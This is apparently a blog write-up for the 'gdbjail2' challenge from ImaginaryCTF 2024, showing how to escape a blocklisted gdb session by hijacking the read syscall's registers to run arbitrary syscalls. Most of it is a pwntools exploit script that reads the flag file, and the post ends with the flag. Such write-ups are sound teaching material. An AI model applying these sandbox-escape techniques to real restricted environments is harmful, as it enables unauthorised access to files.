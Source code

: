 ```yaml
---
layout: post
title:  "gdbjail2 - ImaginaryCTF 2024"
date:   2023-03-19 11:00:34 -0400
---
```


https://ctftime.org/event/2396

# gdbjail2 (misc)

this time with a blocklist

## Solution

The main difference in this one is the blacklist:
```python
blacklist = ["p", "-", "&", "(", ")", "[", "]", "{", "}", "0x"]
```
So we can't just set $rip.

We are debugging cat without any arguments, so it just hangs there forever waiting for input.
It takes input using the read syscall.
We can just add a breakpoint before read, change the registers and continue.
Allowing us to call any syscall that we want.

The way to find where the syscall is might be a little bit harder, I just
installed pwndbg on the Docker image, and used `stepuntilasm syscall`.
But you can also step to it or use a custom gdb script.

You can probably just call execve and be done with it.
I unfortunately chose a harder path.

1. open flag dir
2. call opendents
3. read flag filename
4. open flag
5. read flag
6. print flag from mem

Its pretty straight forward, there are two problems though.

First, The flag filename has the letter 'p' in it which is on the blacklist.
We can bypass that by using integers instead of chars, see the `alloc_str` function.

And second, finding writeable memory
We can just do `set $rax = "AAAA"`.
This gives us a heap string of any size we want.

```python
#!/usr/bin/env python3

from pwn import *

def sendfile(fd1, fd2, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 40")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd1}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {fd2}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set $r10 = 64".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def dump(offset):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", b"set $rdi = 1")
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'B'}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $r14 = 65535 * {offset}".encode())
    p.sendlineafter(b"(gdb) ", b"set $si = $si + $r14")
    p.sendlineafter(b"(gdb) ", f"set $rdx = 256".encode())
    p.sendlineafter(b"(gdb) ", b"continue")
    data = p.recv()
    print(f"DEBUGPRINT[3]: clean.py:16: p.recv()={data}")
    return data 

def write(fd, data, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{data}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def _open(filename, mode):
    p.sendlineafter(b"(gdb) ", b"set $rax = 2")
    alloc_str(filename, "$rdi")
    # p.sendlineafter(b"(gdb) ", f"set $rdi = \"{filename}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {mode}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def getdents(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 78")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A' * 256}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def read(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 0")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A'*n}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def alloc_str(string, reg):
    p.sendlineafter(b"(gdb) ", f"set {reg} = \"{'A'*len(string)}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $start = {reg}".encode())

    for chunk in string:
        chunk = ord(chunk)
        p.sendlineafter(b"(gdb) ", f"set *{reg} = {chunk}".encode())
        p.sendlineafter(b"(gdb) ", f"set {reg} = {reg} + 1".encode())

    p.sendlineafter(b"(gdb) ", f"set *{reg} = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set {reg} = $start".encode())

with remote("gdbjail2.chal.imaginaryctf.org", 1337) as p:
    p.recvuntil(b":25\n")

    p.sendlineafter(b"(gdb) ", b"break *write+21")
    p.sendlineafter(b"(gdb) ", b"break *write+23")
    p.sendlineafter(b"(gdb) ", b"continue")
    p.sendline(b"")

    _open(".", 0)
    p.sendlineafter(b"(gdb) ", b"continue")

    getdents(3, 256)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    data = dump(300)
    idx = data.find(b'.txt')
    flag = data[idx-20:idx+4]
    p.sendlineafter(b"(gdb) ", b"continue")

    _open(flag.decode(), 0)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    read(4, 64)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    dump(200)
    p.sendlineafter(b"(gdb) ", b"continue")
```

## Flag
`ictf{i_l0ve_syscalls_eebc5336}`

shafouz 2024/07/21
